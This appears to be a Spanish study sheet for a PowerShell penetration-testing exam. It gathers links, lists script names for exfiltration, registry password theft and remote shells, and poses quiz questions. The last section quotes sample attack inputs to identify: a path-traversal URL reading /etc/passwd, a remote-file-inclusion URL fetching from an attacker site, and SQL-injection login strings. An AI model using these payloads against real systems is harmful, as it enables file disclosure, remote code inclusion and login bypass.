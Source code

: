 # ¿Qué información se puede recopilar dentro de un sistema?
https://www.jesusninoc.com/2016/10/09/windows-post-exploitation-cmdlets-execution-powershell/
https://github.com/jesusninoc/Seguridad/blob/master/Recopilar%20informaci%C3%B3n%20acerca%20de%20los%20equipos

# ¿Qué información se puede recopilar dentro de una empresa?
http://papelesdeinteligencia.com/7-maneras-de-recolectar-datos-para-tu-empresa-que-todavia-no-conoces/

# Scripts for powershell for pentesters exam
https://github.com/salu90/PSFPT
- BruteForce-Basic-Auth.ps1
- Exfiltrate.ps1
- Exploits.ps1
- Get-Registry-Passwords.ps1
- GitHub-Interactive-Shell.ps1
- Registry-Malware.ps1
- Scan-Directory-Permissions.ps1
- Scan-Network-Shares.ps1
- Simple-Server.ps1
- Transfer-File-PsRemoting.ps1

# Brute Force

## Contraseñas seguras con PowerShell
https://www.jesusninoc.com/contrasenas-seguras-con-powershell/
## Brute Force
https://www.jesusninoc.com/brute-force/
## Ataque de fuerza bruta con Burp Suite Intruder
https://www.jesusninoc.com/2016/02/23/ataque-de-fuerza-bruta-con-burp-suite-intruder/

# Preguntas posibles en examen
- Resuelve en PowerShell lo siguiente:
  - Dime si hay un antivirus instalado
  - Cómo compruebas que están funcionando los equipos de una red
  - Realiza un programa que cifre de forma sencilla
  - Simula la recuperación de un dato que se ha perdido
  - Sabes detectar impresoras en la red?, cómo?
  - Realiza un login que incorpore una función de hash
  - Realizar un sistema de copia de seguridad
  - Ver si un programa se está ejecutando viendo el nombre del producto
- ¿Cómo se llama esto?
  - http://vulnerable_host/preview.php?file=../../../../etc/passwd
  - http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
- ¿Y esto?
  - http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 
  - SELECT * FROM Users WHERE Username='1'OR '1'= '1'AND Password='1'OR '1'= '1'
